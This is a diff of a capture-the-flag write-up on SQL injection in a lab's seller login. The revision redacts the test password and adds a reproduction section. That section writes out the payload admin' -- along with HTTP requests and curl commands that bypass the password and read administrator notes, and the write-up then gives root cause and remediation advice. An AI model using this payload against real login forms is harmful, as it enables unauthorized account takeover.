

Update Tradesman reproduction commands

Changed region(s): [[0.0, 0.061, 0.6101, 0.2134]]

diff --git a/content/writeups/webverse/tradesman-sql-injection-authentication-bypass/index.md b/content/writeups/webverse/tradesman-sql-injection-authentication-bypass/index.md
@@ -1,7 +1,7 @@
 ---
 title: "WebVerse Tradesman — SQL Injection Authentication Bypass to Platform Admin Access"
 date: 2026-08-08T00:00:00+02:00
-lastmod: 2026-08-08T00:00:00+02:00
+lastmod: 2026-08-11T00:00:00+02:00
 draft: false
 author: "Mdk22"
 description: "A legacy seller login accepted SQL comment syntax in the handle field, bypassing password authentication and issuing a platform_admin session."
@@ -45,7 +45,7 @@ methods:
   - "Independent curl Verification"
 ---
 
-> **Publication note:** This article documents a fresh reproduction in an authorized WebVerse educational lab. Reusable session values and private raw artifacts are excluded. The current lab objective is represented publicly as `WEBVERSE{REDACTED}`.
+> **Publication note:** This article documents a fresh reproduction in an authorized WebVerse educational lab. The temporary host, fixed invalid test password, reusable session values, local cookie-jar path, and private raw artifacts are excluded. The current lab objective is represented publicly as `WEBVERSE{REDACTED}`.
 
 ## Executive Summary
 
@@ -133,7 +133,7 @@ Before introducing SQL syntax, an intentionally invalid login established the no
 POST /seller/login
 Content-Type: application/x-www-form-urlencoded
 
-handle=invalid_user%40example.local&password=WrongPass123
+handle=invalid_user%40example.local&password=<REDACTED>
 ```
 
 The application returned HTTP 200 with its explicit rejection marker:
@@ -157,7 +157,7 @@ The dashboard was also requested before exploitation. Without an authenticated s
 The first mutation placed a lone apostrophe in `handle` while retaining the same request shape and invalid password. It produced the same HTTP 200 invalid-login behavior.
 
 ```text
-handle='&password=WrongPass123
+handle='&password=<REDACTED>
 ```
 
 ![Lone-quote login control returning the normal invalid-login marker](Tradesman_Figure_04_Caido_Quote_Control.png)
@@ -172,7 +172,7 @@ The decisive request changed only `handle` to a targeted comment payload and kep
 POST /seller/login
 Content-Type: application/x-www-form-urlencoded
 
-handle=admin' -- &password=WrongPass123
+handle=admin' -- &password=<REDACTED>
 ```
 
 ![Caido request showing the controlled admin SQL comment payload with sensitive values redacted](Tradesman_Figure_05_Caido_SQLi_Request.png)
@@ -216,16 +216,131 @@ The current integration key is WEBVERSE{REDACTED}.
 
 **Figure 8 — Objective readback.** The protected notes resource confirms the authorization context and returns the public-safe, redacted lab objective. No additional internal tools or data were accessed.
 
-## 9. Independent curl Verification
+## 9. Reproduction Commands and Payloads
+
+The following blocks preserve only values and request shapes that were actually used and verified during the fresh reproduction. Copyable text is the reproducibility layer; the nearby Caido and curl figures remain the proof layer. Dynamic values are normalized with public placeholders, and no reusable session material is disclosed.
+
+### Baseline Requests
+
+`R-01` establishes the deterministic invalid-login baseline.
+
+```http
+POST /seller/login HTTP/1.1
+Host: <LAB_HOST>
+Content-Type: application/x-www-form-urlencoded
+
+handle=invalid_user%40example.local&password=<REDACTED>
+```
+
+Expected result: HTTP 200 with `Invalid handle or password`; no authenticated dashboard state is established.
+
+`P-01` is the exact deliberately invalid handle used in that baseline:
+
+```text
+invalid_user@example.local
+```
+
+The protected-resource baseline confirms that the pre-exploitation state cannot already reach the dashboard:
+
+```http
+GET /seller/dashboard HTTP/1.1
+Host: <LAB_HOST>
+```
+
+Expected result: HTTP 302 with `Location: /seller/login`.
+
+### Negative or Benign Control
+
+`P-02` tests a single SQL metacharacter without a complete bypass expression:
+
+```text
+'
+```
+
+The exact control request retained the same fixed invalid password and request contract:
+
+```http
+POST /seller/login HTTP/1.1
+Host: <LAB_HOST>
+Content-Type: application/x-www-form-urlencoded
+
+handle='&password=<REDACTED>
+```
+
+Expected result: HTTP 200 and the same invalid-login marker. This control proves that a quote alone does not authenticate the user; it does not independently prove or disprove SQL injection.
+
+### Verified Proof Payloads
+
+`P-03` is the bounded SQL comment payload that produced the controlled authentication differential. The trailing space after `--` is intentional and is retained in the full request blocks below.
+
+```text
+admin' --
+```
+
+The verified proof request changed only `handle` to `P-03` while retaining the fixed invalid password:
+
+```http
+POST /seller/login HTTP/1.1
+Host: <LAB_HOST>
+Content-Type: application/x-www-form-urlencoded
+
+handle=admin' -- &password=<REDACTED>
+```
+
+Expected result: HTTP 302 with `Location: /seller/dashboard` and `Set-Cookie: session=<REDACTED>`. This is a transition signal, not final proof on its own.
+
+The newly issued session was then replayed only to the previously protected dashboard and its linked read-only objective route:
+
+```http
+GET /seller/dashboard HTTP/1.1
+Host: <LAB_HOST>
+Cookie: session=<SESSION_COOKIE>
+```
+
+Expected result: HTTP 200 with the `admin` / `platform_admin` identity marker.
+
+```http
+GET /seller/dashboard/admin-notes HTTP/1.1
+Host: <LAB_HOST>
+Cookie: session=<SESSION_COOKIE>
+```
+
+Expected result: HTTP 200, administrators-only content, and `WEBVERSE{REDACTED}`. Literal session and current-instance flag values are intentionally not published.
+
+### Independent Command-Line Verification
+
+Two curl commands were executed during the fresh reproduction. The public forms retain the verified request semantics while replacing temporary values with placeholders. Certificate bypass was not part of the tested condition, so the working terminal's nonessential `-k` option is omitted.
+
+```bash
+curl -sS -i \
+  -c <REDACTED> \
+  --data-urlencode "handle=admin' -- " \
+  --data-urlencode "password=<REDACTED>" \
+  "https://<LAB_HOST>/seller/login"
+```
+
+Expected result: HTTP/2 302, `location: /seller/dashboard`, and `set-cookie: session=<REDACTED>`.
+
+```bash
+curl -sS -i \
+  -b <REDACTED> \
+  "https://<LAB_HOST>/seller/dashboard/admin-notes"
+```
+
+Expected result: HTTP/2 200, `admin` / `platform_admin` context, administrators-only content, and `WEBVERSE{REDACTED}`.
+
+The progression is deliberately bounded: `P-01` establishes normal rejection, `P-02` shows that a lone quote does not authenticate, and `P-03` produces the controlled transition. The usable session and privileged readback provide the semantic proof; neither a status code nor a payload string alone is treated as sufficient confirmation.
+
+## 10. Independent curl Verification
 
 The decisive flow was reproduced outside Caido so the result did not depend on Replay state or an existing browser session. curl submitted the same controlled login to a fresh cookie jar:
 
 ```bash
-curl -ksS -i \
-  -c /tmp/tradesman_session.txt \
+curl -sS -i \
+  -c <REDACTED> \
   --data-urlencode "handle=admin' -- " \
-  --data-urlencode "password=WrongPass123" \
-  "$BASE/seller/login"
+  --data-urlencode "password=<REDACTED>" \
+  "https://<LAB_HOST>/seller/login"
 ```
 
 The response again redirected to `/seller/dashboard` and issued a redacted session value.
@@ -237,16 +352,16 @@ The response again redirected to `/seller/dashboard` and issued a redacted sessi
 The same local cookie jar then reached the protected notes route with HTTP 200:
 
 ```bash
-curl -ksS -i \
-  -b /tmp/tradesman_session.txt \
-  "$BASE/seller/dashboard/admin-notes"
+curl -sS -i \
+  -b <REDACTED> \
+  "https://<LAB_HOST>/seller/dashboard/admin-notes"
 ```
 
 ![Independent curl readback of the administrators-only notes response with the objective redacted](Tradesman_Figure_10_Curl_Admin_Notes_Redacted.png)
 
 **Figure 10 — Independent readback.** The curl-created session reaches the same `admin` / `platform_admin` context and reproduces the redacted administrators-only objective.
 
-## 10. Root Cause and Classification
+## 11. Root Cause and Classification
 
 The runtime behavior is consistent with user-controlled `handle` data being incorporated into a legacy SQL authentication query without safe parameter binding. The exact query text and database engine were not observed, so the following is illustrative rather than captured source:
 
@@ -265,7 +380,7 @@ WHERE handle = 'admin' -- ...password condition...
 
 The primary mapping is [CWE-89](https://cwe.mitre.org/data/definitions/89.html): attacker-controlled input changed SQL behavior at the authentication boundary. The observed authentication bypass and notes exposure are verified consequences of that injection path, not separate asserted root-cause CWEs.
 
-## 11. False-Positive Controls
+## 12. False-Positive Controls
 
 The conclusion relies on independent controls instead of one anomalous response:
 
@@ -280,13 +395,13 @@ The conclusion relies on independent controls instead of one anomalous response:
 
 This evidence confirms SQL injection and the demonstrated authentication bypass. It does not establish source-code access, database write capability, arbitrary database extraction, command execution, or untested dashboard permissions.
 
-## 12. Impact
+## 13. Impact
 
 The verified impact is a password-authentication bypass for the demonstrated `admin` account. The server then issues a session accepted as `platform_admin`, giving access to a previously protected dashboard and its linked administrators-only notes.
 
 The confirmed lab impact is limited to reading the integration-key objective in that notes resource. The dashboard states that the account has access to internal platform tools, but no additional tool access, write actions, or unrelated data collection was tested. In a production environment, impact would depend on account privileges and the data exposed behind the affected authentication boundary.
 
-## 13. Remediation
+## 14. Remediation
 
 ### Parameterize the Login Query
 
@@ -304,7 +419,7 @@ Rotate the key exposed in the administrators-only notes and invalidate the old v
 
 Audit seller, vendor, staff, and back-office routes that survived frontend rewrites or migrations. Add regression tests for apostrophes, SQL comment syntax, and other metacharacters in authentication fields.
 
-## 14. Validation After the Fix
+## 15. Validation After the Fix
 
 - Invalid credentials should retain the rejection path and never issue an authenticated session.
 - Apostrophes and SQL comment syntax should remain literal input rather than changing query structure.
